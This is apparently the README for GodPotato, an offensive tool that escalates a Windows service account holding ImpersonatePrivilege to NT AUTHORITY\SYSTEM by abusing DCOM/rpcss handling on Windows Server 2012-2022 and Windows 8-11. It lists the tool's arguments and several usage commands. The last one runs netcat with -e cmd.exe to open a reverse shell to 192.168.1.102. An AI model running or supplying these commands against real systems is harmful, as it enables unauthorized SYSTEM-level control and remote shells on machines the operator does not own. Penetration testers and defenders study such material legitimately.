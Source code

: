 # GodPotato


Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.



Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato



# Affected version

Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11


# Example

```

    FFFFF                   FFF  FFFFFFF
   FFFFFFF                  FFF  FFFFFFFF
  FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
 FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF
 FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF
 FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF
  FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF
  FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF
   FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF
    FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF


Arguments:

        -cmd Required:True CommandLine (default cmd /c whoami)

Example:

GodPotato -cmd "cmd /c whoami"


```

Use the program's built-in Clsid for privilege escalation and execute a simple command

```
GodPotato -cmd "cmd /c whoami"
```

![[Pasted image 20230904153416.png]]

Customize Clsid and execute commands

```
GodPotato -cmd "cmd /c whoami"

```

![[Pasted image 20230904153426.png]]

Execute reverse shell commands

```c
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

